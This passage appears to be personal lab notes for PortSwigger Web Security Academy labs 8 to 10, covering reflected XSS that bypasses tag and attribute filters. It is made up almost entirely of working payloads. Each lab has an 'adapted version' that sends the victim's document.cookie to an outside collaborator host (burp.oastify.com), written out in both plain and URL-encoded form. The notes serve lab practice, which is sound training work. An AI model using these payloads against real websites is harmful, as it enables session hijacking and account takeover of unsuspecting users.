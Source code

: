 ### 8. Reflected XSS into HTML context with most tags and attributes blocked
>BruteForce all tags by using portswigger list: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
>Find out, that <body onresize="print()"> payload gives 200 status. Use the next payload, to send it to victim:
```
<iframe src="https://0a61001b0306cecac0be0a5000570086.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
**Adapted version**
```
<script>
location = 'https://kek.web-security-academy.net/?query=<body onload=document.location='https://burp.oastify.com/?c='+document.cookie tabindex=1>#x';
</script>

ULR Encoded:

<script>
location = 'https://kek.web-security-academy.net/?query=%3Cbody+onload%3Ddocument.location%3D%27https%3A%2F%2Fburp.oastify.com%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>
```

### 9. Reflected XSS into HTML context with all tags blocked except custom ones
>All tags are blocked, but you can provide your own (e.g. <xss>). Use the next payload, to send it to victim:
```
<script>
location='https://kek.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```
**Adapted version**
```
<xss id=x onfocus=document.location="http://burp.oastify.com/?c="+document.cookie tabindex=1>#x

ULR Encoded:

%3Cxss%20id=x%20onfocus=document.location=%22http://burp.oastify.com/?c=%22+document.cookie%20tabindex=1%3E#x
```

### 10. Reflected XSS with some SVG markup allowed
```
<svg><animatetransform onbegin=alert(1)> 
```
**Adapted version**
```
<svg><animatetransform onbegin=document.location='https://burp.oastify.com/?c='+document.cookie;>

URL Encoded:

%3Csvg%3E%3Canimatetransform%20onbegin=document.location='https://burp.oastify.com/?c='+document.cookie;%3E
```
